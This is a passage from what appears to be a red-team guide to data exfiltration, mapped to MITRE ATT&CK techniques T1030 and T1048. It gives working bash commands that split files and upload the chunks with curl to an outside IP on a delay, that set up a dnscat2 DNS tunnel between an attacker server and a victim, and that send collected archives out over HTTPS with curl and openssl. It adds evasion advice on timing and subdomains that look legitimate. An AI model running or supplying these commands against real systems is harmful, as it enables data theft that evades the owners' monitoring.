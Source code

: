This involves limiting the size of data chunks to avoid detection.

**Chunked Data Transfer**:
```bash
# Split data into 1MB chunks
split -b 1M large_file.dat chunk_

# Transfer individual chunks with delays
for chunk in chunk_*; do
  curl -F "file=@$chunk" http://192.168.1.100/upload.php
  sleep 30
done
```

**Specific ATT&CK Mapping**:
- Chunked file transfer implements T1030
- Size limits avoid network traffic anomalies

**Red Team Approach**:
- Determine appropriate chunk sizes based on target environment
- Implement random delays between transfers
- Consider normal working hours for transfer timing

### Exfiltration Over Alternative Protocol (T1048)

This involves using protocols other than the primary C2 channel for data exfiltration.

#### Exfiltration Over DNS (T1048.003)

Tools for DNS-based exfiltration:

**DNScat2**: Command and control over DNS.
```bash
# Start the server on attacker system
ruby dnscat2.rb domain.com

# On the victim, connect to the server
./dnscat2 domain.com
```

**Specific ATT&CK Mapping**:
- DNS tunneling directly implements T1048.003
- Using DNS avoids many content filters

**Operational Security**:
- DNS tunneling may be detected by security monitoring
- Consider data encoding to minimize request volumes
- Use subdomains that appear legitimate

#### Exfiltration Over Encrypted Channel (T1048.002)

Tools for encrypted exfiltration:

**HTTPS Data Transfer**:
```bash
# Using curl for secure exfiltration
curl -k -X POST -F "data=@collected_data.tar.gz" https://192.168.1.100/upload.php

# Using OpenSSL directly
openssl s_client -connect 192.168.1.100:443 -quiet < collected_data.tar.gz
```
